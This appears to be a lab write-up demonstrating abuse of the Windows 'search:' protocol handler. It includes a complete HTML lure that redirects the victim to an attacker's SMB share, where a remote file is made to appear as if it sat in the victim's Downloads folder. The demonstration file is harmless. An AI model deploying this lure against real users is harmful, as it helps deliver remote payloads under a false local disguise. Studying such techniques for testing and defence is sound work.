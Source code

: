 - ## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

- ## Attacker's Machine
- OS - Windows 10 1909
- Build - 18363.1139
## Setting Up

#### Attacker's Machine
- There is a SMB share set up on the attacker's machine.
- The files are accessible to everyone on the network.![](Attachments/Pasted%20image%2020240708021919.png)
- For testing purposes, there is a text file ( Hello.txt )  in the folder.![](Attachments/Pasted%20image%2020240708024507.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads"
    <p><a href="search:query=Hello.txt&amp;crumb=location:\\Desktop-attacke\smb\&amp;displayname=Downloads">Hello</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240708023819.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240708024225.png)
	1. Windows has searched for "Hello.txt" .
	2. It appears as if the file is in "Downloads" .
	3. The actual location of the file is "\\\\Desktop-attacke\\smb\\Hello.txt"  .

- If the Victim uses a different layout, the actual location will not be visible.![](Attachments/Pasted%20image%2020240708024753.png) 
